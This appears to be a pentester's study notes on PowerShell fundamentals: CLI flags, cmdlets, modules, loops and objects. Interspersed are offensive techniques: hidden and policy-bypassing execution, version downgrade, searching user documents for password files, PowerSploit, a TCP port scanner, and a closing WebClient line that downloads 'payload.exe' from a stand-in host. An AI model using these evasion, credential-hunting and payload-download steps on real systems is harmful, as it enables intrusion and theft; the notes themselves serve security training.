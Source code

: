 # Powershell Fundamentals

## Powershell CLI

[Powershell Command line Interface](http://radar.oreilly.com/2013/06/powershell-command-line-introduction.html)(CLI).

Powershell can be found from windows system32 or sytem folder.

- `[Environment]::Is64BitProcess` to check whether 64 bit powershell environment.
- `powershell /?` is like linux help
- Execution Policy:  
    `powershell.exe -ExecutionPolicy Bypass .\script.ps1`  
    `powershell.exe -ExecutionPolicy Unrestricted .\script.ps1`
- Windowstyle:  
    `powershell.exe -WindowsStyle Hidden .\script.ps1` This will make to run powershell command hidden.
- Command:  
    It is used to specify command or script block.  
    `powershell.exe -Command Get-Process`  
    `powershell.exe -Command "& { Get-EventLog -LogName security }"`
- EncodedCommand:  
    `powershell.exe -EncodedCommand $encodedCommand`
- NoProfile:  
    This will make sure no profile will interfere with command execution  
    `powershell.exe -NoProfile .\script.ps1`
- Version:  
    To downgrade powershell.  
    `powershell.exe -Version 2`
- Acronyms that can be used:  
    ![new.png](Pictures/a6.png)
- Get-Help  
    `Get-Help Get-Help`  
    `get-Help Get-Process -Full`  
    `Get-Help Get-Process -Examples`  
    `Get-Help Get-Help -Online`  
    `Update-Help`  
    [using Cmdlet help](https://docs.microsoft.com/en-us/previous-versions/system-center/virtual-machine-manager-2008-r2/cc764318(v=technet.10)?redirectedfrom=MSDN).
- Get-Command  
    `Get-Command` will simply list the list of commands.  
    `Get Command -Name *Firewall*` We can list all useful fuction related to modification of windows firewall.

* * *

* * *

## Cmdlets

[pipeline](https://www.petri.com/understanding-the-powershell-pipeline)(|)  
[Objects](https://docs.microsoft.com/en-us/previous-versions/technet-magazine/hh750381(v=msdn.10)?redirectedfrom=MSDN)

- `Get-ChildItem`  
    `Get-ChildItem | Format-List *`  
    `Get-Process | Sort-Object-Unique | Select-Object ProcessName`  
    `Get-Process | Sort-Object-Unique | Select-Object ProcessName > uniq_process.txt`
- Get-Process:  
    `Get-Process`  
    `Get-Process | Format-List *`  
    `Get-Process chrome, firefox | Sort-Object -Unique | Format-List Path`  
    `Get-Process chrome, firefox | Sort-Object -Unique | Format-List Path,Id`
- Get-ChildItem  
    `ls`  
    `Get-Alias -Definition Get-ChildItem`
- Get-WmiObject  
    `Get-WmiObject -class win32_operatingsystem | select -Property *`  
    `Get-WmiObject -class win32_operatingsystem | fl *`  
    `Get-WmiObject -class win32_service | Format-List *`  
    `Get-WmiObject -class win32_service | Sort-Object _Unique PathName | fl Pathname`  
    `Get-WmiObject -class win32_operatingsystem | fl * | Export-Csv C:\host_info.csv`
- `cd HKLM:\`  
    `cd .\SOFTWARE\Microsoft\Windows\CurrentVersion\`  
    `Select-String -Path C:\users\user\Documents\*.txt -Pattern pass*`  
    `Get-Content C:\Users\user\Documnets\passwords.txt`  
    Alternative oneliner for above command is `ls -r C:\users\user\Documents -File *.txt| % { sls -Path $_ -Pattern pass*`
- Get-Service  
    `Get-Service "s*" | Sort-Object Status -Descending`

* * *

* * *

## Modules

.psm1 file -> functionalities grouped together. [Module](https://docs.microsoft.com/en-us/powershell/scripting/developer/module/writing-a-windows-powershell-module?view=powershell-7).  
[Module Manifest](https://docs.microsoft.com/en-us/powershell/scripting/developer/module/how-to-write-a-powershell-module-manifest?view=powershell-7) to see how to create module.  
There are several types of modules:

1.  [Script Module](https://docs.microsoft.com/en-us/powershell/scripting/developer/module/how-to-write-a-powershell-script-module?view=powershell-7)
2.  [Binary Modules](https://docs.microsoft.com/en-us/powershell/scripting/developer/module/how-to-write-a-powershell-binary-module?view=powershell-7)
3.  [Manifest Modules](https://docs.microsoft.com/en-us/powershell/scripting/developer/module/how-to-write-a-powershell-module-manifest?view=powershell-7)
4.  Dynamic modules - created dynamically by scripts using the "[New-Module](https://docs.microsoft.com/en-gb/powershell/module/microsoft.powershell.core/new-module?view=powershell-7.1&viewFallbackFrom=powershell-6)" cmdlet.

`Get-Module`  
`Get-Module -ListAvailable`  
`Import-Module .\module.psm1`

- PowerSploit gives lot of module.  
    [https://my.ine.com/CyberSecurity/courses/e36303c3/powershell-for-pentesters](https://my.ine.com/CyberSecurity/courses/e36303c3/powershell-for-pentesters)  
    After installing we need to copied to module path.  
    `$Env:PSModulePath` to see the module path.  
    Once downloaded. `Import-Module Powersploit`  
    `Get-Module`  
    `Get-Command -Module PowerSploit`  
    `Get-Help Write-HihackDLL` where Write-HihackDLL is a module.

* * *

* * *

## Scripts

.ps1 files

```example.ps1
Parm(
    [parameter(mandatory=$true)][string]$file
)
Get-Content "$file"
```

The above script takes a file name as an argument for which it creates a variable called "$file" and runs the "Get-Content" cmdlet on the variable.  
To run the above program: `.\example.ps1 users.txt`  
  
  
**Loop statements**

- for()  
    `Get-Help about_For`
- foreach()  
    `Get-Help about_Foreach`  
    `$services=Get-Service`  
    `foreach ($service in $services) { $service.Name }` or can be accomplished by `Get-Service | ForEach-Object {$_.Name}`
- while()  
    `Get-Help about_While`
- do {something} while()  
    `Get-Help about_Do`
- do {something} until()  
      
    
- ForEach-Object  
    [ForEach-Object](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/foreach-object?view=powershell-7.1&viewFallbackFrom=powershell-6)  
    `Get-Service | ForEach-Object {$_.Name}`
- Where-Object  
    [Where-Object](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/where-object?view=powershell-7.1&viewFallbackFrom=powershell-6)  
    `Get-ChildItem c:\powershell\ | Where-Object {$_.Name-match"xls"}`

**Powershell TCP port scanner**

```TcpPort_Scan.ps1
$ports={444,81};
$ip="192.168.13.250";

foreach ($port in $ports) {try{$socket=New-Object System.Net.Sockets.TcpClient ($ip,$port);}

catch{};

if ($socket -eq $null) {echo $ip":"$port" - closed";} else {echo $ip":"$port" - open";
$socket=$null;}}
```

./TcpPort_Scan.ps1
***
***

## Objects

Objects are the results obtained from running cmdlets.

It has number of properties. For example firefox example that saw before.

`Get-Process | Get-Member-MemberType Method` will list number methods assocaiated with the cmdlet Get-Process.
`kill` and `start` to kill and start process.
`Get-Process -Name "firefox" | Kill`

[New-Object](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/new-object?view=powershell-7.1&viewFallbackFrom=powershell-6)
[Type-class](https://docs.microsoft.com/en-us/dotnet/api/system.type?redirectedfrom=MSDN&view=net-5.0)


- `$webclient = New-Object System.Net.WebClient`
`$payload url = "https//site.com/payload.exe"`
`$file = "C:\ProgramData\payload.exe"`
`$webclient.DownloadFile($payload_url, $file)`

***
***